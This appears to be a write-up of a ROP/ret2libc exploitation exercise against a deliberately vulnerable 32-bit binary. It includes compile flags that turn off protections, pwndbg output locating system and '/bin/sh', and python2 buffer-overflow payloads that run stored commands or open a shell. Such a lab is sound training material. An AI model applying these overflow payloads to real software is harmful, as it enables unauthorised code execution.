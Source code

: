 ### How to compile binary (disable ASLR):

`gcc roplevel2.c -o roplevel2 -fno-stack-protector -z execstack -m32 -no-pie -Wl,-z,norelro -mpreferred-stack-boundary=2`

### Analysis:

```
pwndbg> p exit
$1 = {<text variable, no debug info>} 0x8049060 <exit@plt>
pwndbg> p system
$2 = {<text variable, no debug info>} 0x8049050 <system@plt>
```

```
┌──(george93㉿kali)-[~/Desktop/Exploit-Challenges/rop/src]
└─$ strings -a -t x /usr/lib/i386-linux-gnu/libc-2.33.so | grep "/bin/sh"                                                                   
 18fb62 /bin/sh

┌──(george93㉿kali)-[~/Desktop/Exploit-Challenges/rop/src]
└─$ gdb-pwndbg roplevel2
Reading symbols from roplevel2...
(No debugging symbols found in roplevel2)
pwndbg: loaded 192 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
pwndbg> break main
Breakpoint 1 at 0x80491f0
pwndbg> r
Starting program: /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2 

Breakpoint 1, 0x080491f0 in main ()
...
...
...
pwndbg> info proc mappings
process 5091
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x8049000  0x804a000     0x1000     0x1000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x804a000  0x804b000     0x1000     0x2000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	 0x804b000  0x804c000     0x1000     0x2000 /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
	0xf7db9000 0xf7dd6000    0x1d000        0x0 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7dd6000 0xf7f2e000   0x158000    0x1d000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7f2e000 0xf7fa1000    0x73000   0x175000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa1000 0xf7fa2000     0x1000   0x1e8000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa2000 0xf7fa4000     0x2000   0x1e8000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa4000 0xf7fa6000     0x2000   0x1ea000 /usr/lib/i386-linux-gnu/libc-2.33.so
	0xf7fa6000 0xf7fad000     0x7000        0x0 
	0xf7fc3000 0xf7fc5000     0x2000        0x0 
	0xf7fc5000 0xf7fc9000     0x4000        0x0 [vvar]
	0xf7fc9000 0xf7fcb000     0x2000        0x0 [vdso]
	0xf7fcb000 0xf7fcc000     0x1000        0x0 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7fcc000 0xf7fee000    0x22000     0x1000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7fee000 0xf7ffb000     0xd000    0x23000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7ffb000 0xf7ffd000     0x2000    0x2f000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xf7ffd000 0xf7ffe000     0x1000    0x31000 /usr/lib/i386-linux-gnu/ld-2.33.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
pwndbg> x/s 0xf7db9000+0x18fb62
0xf7f48b62:	"/bin/sh"
```

```
pwndbg> find &system,+99999999,"/bin/sh"
warning: Unable to access 16007 bytes of target memory at 0x8049050, halting search.
Pattern not found.
pwndbg> break main
Breakpoint 1 at 0x80491f0
pwndbg> c
The program is not being run.
pwndbg> r
Starting program: /home/george93/Desktop/Exploit-Challenges/rop/src/roplevel2
...
...
...
pwndbg> find &system,+99999999,"/bin/sh"
0xf7f48b62
warning: Unable to access 16000 bytes of target memory at 0xf7faa5ea, halting search.
1 pattern found.
```

### Methodolody:

Find gadgets to return to a System Function

### Answer for original version (I think?):

Analysis things:

```
pwndbg>  x/s 0x804a024
0x804a024:	"# this does nothing..."
pwndbg> print &str1
$10 = (<data variable, no debug info> *) 0x804b3f8 <str1>
pwndbg> print &str2
$11 = (<data variable, no debug info> *) 0x804b404 <str2>
pwndbg> print &str3
$12 = (<data variable, no debug info> *) 0x804b414 <str3>
```

Actual Exploit:

```
python2 -c "print('AAAABBBBCCCCDDDDEEEE\x00\xdd\xdf\xf7' + '\xda\x91\x04\x08GGGG\xf8\xb3\x04\x08')" | ./roplevel2
python2 -c "print('AAAABBBBCCCCDDDDEEEE\x00\xdd\xdf\xf7' + '\xda\x91\x04\x08GGGG\x04\xb4\x04\x08')" | ./roplevel2
python2 -c "print('AAAABBBBCCCCDDDDEEEE\x00\xdd\xdf\xf7' + '\xda\x91\x04\x08GGGG\x14\xb4\x04\x08')" | ./roplevel2
```

### Answer for shell version:

Using pure ret2libc:

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\x00\xdd\xdf\xf7\x80\x06\xdf\xf7\x62\x8b\xf4\xf7')"; cat) | ./roplevel2-shellversion
```

Using gadget() function:

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\xda\x91\x04\x08\x00\xdd\xdf\xf7\x60\x90\x04\x08\x62\x8b\xf4\xf7')"; cat) | ./roplevel2-shellversion
```

Using `ROPGadget --binary ./roplevel2-shellversion` (`0x080492c2 : sub al, 0x24 ; ret`):

```
(python2 -c "print('AAAABBBBCCCCDDDDEEEEFFFF' + '\xc2\x92\x04\x08\x00\xdd\xdf\xf7\x60\x90\x04\x08\x62\x8b\xf4\xf7')"; cat) | ./roplevel2-shellversion
```

### Notes:

Based on the design of this challenge, the gadget function is not suitable to solve the puzzle as x86 stores parameters to functions on the stack while Mach-O stores parameters to functions in lower registers. I have since edited the challenge to allow it to be exploitable on a Linux OS via the gadget function or finding gadgets within the binary itself as well :). Due to the nature of this exploit, you can even just use a generic ret2libc attack.

You can try to obtain a root shell via a buffer overflow but on analysis of this challenge, it seems that the author wants us to execute the commands stored in str1, str2, str3 via gadget() and the winner() function call. From the author source code, I modified it and created 2 versions of the binary: One that aims to execute the commands store in str1, str2 and str3; and the other aims to obtan a shell.

Over [here](https://icyphox.sh/blog/rop-on-arm/) is a walkthrough of someone attempting the challenge and achieving code execution instead of executing the various commands stored in str1, str2, str3 as the author intended. Still a good read though.

### References:

https://developer.arm.com/documentation/dui0068/b/Thumb-Instruction-Reference/Thumb-memory-access-instructions/PUSH-and-POP

https://developer.arm.com/documentation/dui0041/c/Babbfdih#
